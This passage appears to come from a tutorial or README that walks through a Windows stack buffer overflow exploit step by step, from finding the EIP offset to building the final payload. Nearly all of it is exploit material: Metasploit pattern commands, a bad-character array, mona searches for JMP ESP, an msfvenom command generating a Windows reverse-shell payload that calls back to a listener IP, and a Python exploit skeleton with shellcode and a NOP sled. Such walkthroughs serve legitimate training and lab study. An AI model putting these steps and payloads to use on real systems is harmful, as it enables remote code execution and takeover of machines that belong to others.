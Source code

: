 2. **Finding the Offset**: Determine the exact number of bytes needed to reach the EIP register
   ```bash
   # Create a pattern
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
   
   # Find the offset after crash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
   ```

3. **Controlling EIP**: Verify control of the EIP register
   ```python
   buffer = "A" * 2003 + "B" * 4 + "C" * 500
   ```

4. **Finding Bad Characters**: Identify characters that might break the exploit
   ```python
   badchars = (
       "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
       "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
       "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
       "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
       "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
       "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
       "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
       "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
       "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
       "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
       "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
       "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
       "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
       "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
       "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
       "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
   )
   
   buffer = "A" * 2003 + "B" * 4 + badchars
   ```

5. **Finding a JMP ESP Instruction**: Locate a reliable address to jump to your shellcode
   ```
   # In Immunity Debugger with mona.py
   !mona modules
   !mona find -s "\xff\xe4" -m module.dll
   ```

6. **Generating Shellcode**: Create shellcode that avoids bad characters
   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f python -b "\x00" EXITFUNC=thread
   ```

7. **Final Exploit**: Combine all elements into a working exploit
   ```python
   #!/usr/bin/python
   import socket
   
   # Shellcode generated with msfvenom
   shellcode = (
       "\xbd\x9e\x5e\x55\x0e\xda\xd8\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
       "\x52\x31\x6a\x12\x03\x6a\x12\x83\x72\x5f\x32\x6b\x70\x77\x31"
       # ... rest of shellcode ...
   )
   
   # Buffer structure
   buffer = "A" * 2003                      # Padding to reach EIP
   buffer += "\xaf\x11\x50\x62"             # JMP ESP address (little-endian)
   buffer += "\x90" * 16                    # NOP sled
   buffer += shellcode                      # Shellcode
   ```